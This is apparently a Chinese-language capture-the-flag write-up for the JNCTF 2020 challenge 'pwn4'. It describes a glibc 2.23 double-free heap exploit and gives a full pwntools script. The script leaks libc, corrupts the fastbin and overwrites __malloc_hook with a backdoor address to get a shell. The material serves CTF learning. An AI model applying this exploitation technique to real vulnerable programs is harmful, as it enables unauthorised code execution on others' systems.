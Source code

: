 # JNCTF-2020 : jnctf_2020_pwn4

## **【原理】**
glibc2.23 下的double free

## **【目的】**
getshell

## **【环境】**
Ubuntu 16.04

## **【工具】**
Pwntools,ida,gdb

## **【步骤】**

打__malloc_hook，填充入后门函数。


```python

from pwn import*
context.log_level = 'debug'
p = process('./jnctf_2020_pwn4')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./jnctf_2020_pwn4')
backdoor = 0x04008D6
def create(index,size,content):
	p.sendlineafter('>','1')
	p.sendlineafter(':',str(index))
	p.sendlineafter(':',str(size))
	p.sendafter(':',content)
def delete(index):
	p.sendlineafter('>','2')
	p.sendlineafter(':',str(index))
def show(index):
	p.sendlineafter('>','3')
	p.sendlineafter(':',str(index))
def pr(a,addr):
	log.success(a+'===>'+hex(addr))

create(1,0x80,'\x00')
create(2,0x68,'\x00')
delete(1)
show(1)
p.recvuntil('girlfriendname:')
leak = u64(p.recv(6)+'\x00\x00')
libcbase = leak - (0x7f6010acbb78-0x7f6010707000)
system = libcbase + libc.sym['system']
malloc_hook = libcbase + libc.sym['__malloc_hook']
pr('libcbase',libcbase)
pr('system',system)
pr('malloc_hook',malloc_hook)

create(15,0x80,'\x00')
create(3,0x68,'\x00')
delete(2)
delete(3)
delete(2)
create(4,0x68,p64(malloc_hook-0x23))
create(5,0x68,'\x00')
create(6,0x68,'\x00')
create(7,0x68,'a'*0x13+p64(backdoor))
#gdb.attach(p)
p.sendlineafter('>','1')
p.sendlineafter(':','0')
p.sendlineafter(':','16')

p.interactive()




```

## **【总结】**
非常基础的堆。